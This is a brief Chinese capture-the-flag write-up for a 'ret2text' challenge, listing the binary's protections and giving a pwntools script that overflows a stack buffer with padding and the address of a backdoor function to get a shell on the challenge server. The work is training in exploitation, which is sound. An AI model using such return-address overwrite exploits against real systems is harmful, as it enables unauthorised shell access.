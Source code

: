 # W1 ret2text

## 文件分析

下载`ret2text`, NX on, PIE off, Canary off, RELRO full  
ghidra分析为64位程序

## 逆向

`backdoor`函数直接打开sh了，打就完了

## EXPLOIT

```python
from pwn import *
sh = remote("node4.buuoj.cn", 29533)
sh.sendline(b'0'*0x28 + p64(0x004011fb)) # addr of backdoor
sh.interactive()
```

Done.

